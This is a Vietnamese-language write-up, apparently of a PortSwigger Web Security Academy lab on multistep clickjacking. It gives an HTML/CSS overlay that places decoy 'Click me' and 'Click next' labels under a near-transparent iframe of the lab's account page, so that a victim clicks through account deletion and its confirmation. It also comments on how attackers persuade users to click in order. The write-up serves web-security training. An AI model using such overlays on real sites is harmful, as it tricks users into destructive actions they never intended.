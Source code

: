 # Multistep clickjacking



Mô tả::

+ Chức năng xóa tài khoản được bảo vệ bằng mã thông báo CSRF.
+ Một hộp thoại xác nhận bổ sung để bảo vệ khỏi bị kích chuột.
+ Nạn nhân sẽ nhấp vào bất kỳ thứ gì hiển thị từ nhấp chuột và sẽ tuân theo thứ tự cho các văn bản như Nhấp vào tôi trước và Nhấp vào tôi tiếp theo

Khi người dùng nhấp chuột vào xóa người dùng thì nó sẽ chuyển chúng ta đến một trang khác để xác nhận, vì thế chúng ta sẽ craft HTML như sau:

``` html
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site1{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
    #evil_site2{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<div id="evil_site2">Click next</div>
<iframe id="vuln_site" src="https://0afa001404730540c146a81c00b40084.web-security-academy.net/my-account">
</iframe>
```

![image](https://user-images.githubusercontent.com/68894302/175211450-88f5022a-5af6-4a61-be8e-13c9f50b9cfa.png)

Theo thứ tự thì sau khi người dùng click vào `Click me` phía dưới chính là `Delete account` thì nó sẽ chuyển đến một trang xác nhận

![image](https://user-images.githubusercontent.com/68894302/175211957-389444bc-5caf-4dc0-8308-72372f81fe98.png)

Và lúc này nếu Click next chính là xác nhận xóa tài khoản. 

Vì thế cần thuyết phục người dùng nhấp hai lần. Trong thực tế, biết được hành vi của người dùng thông thường sẽ rất quan trọng để thuyết phục họ không chỉ nhấp chuột mà còn cả thứ tự nhấp chuột

![image](https://user-images.githubusercontent.com/68894302/178257737-59d628e8-1238-435f-9041-4cbf1436d665.png)